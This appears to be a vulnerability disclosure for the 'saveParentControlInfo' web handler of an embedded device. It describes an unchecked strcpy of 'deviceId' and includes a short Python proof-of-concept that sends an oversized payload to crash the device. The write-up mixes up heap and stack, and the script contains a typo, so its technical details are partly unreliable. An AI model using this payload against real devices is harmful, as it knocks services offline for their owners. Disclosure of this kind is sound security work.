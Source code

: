 In the function saveParentControlInfo, the content obtained by the program from the parameter "deviceId" is passed to the chunks created by the program, and then the value of the deviceId is copied directly into the heap via the strcpy function. There is no size checking, so there is a stack overflow vulnerability. Attackers can easily perform denial-of-service attacks using well-crafted overflow data.

<img width="416" height="337" alt="image" src="https://github.com/user-attachments/assets/76c4f7ef-0bca-4775-b690-114ef96f6d12" />

POC：
```
from pwn import *
import requests

payload = b'a'*0x1000

url = "http://192.168.100.254/goform/saveParentControlInfo"

cookie = {"Cookie":"password=12345"}
data = {"deviceId": payload,"time": "1"}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, caookies=cookie, data=data)
print(response.text)
```
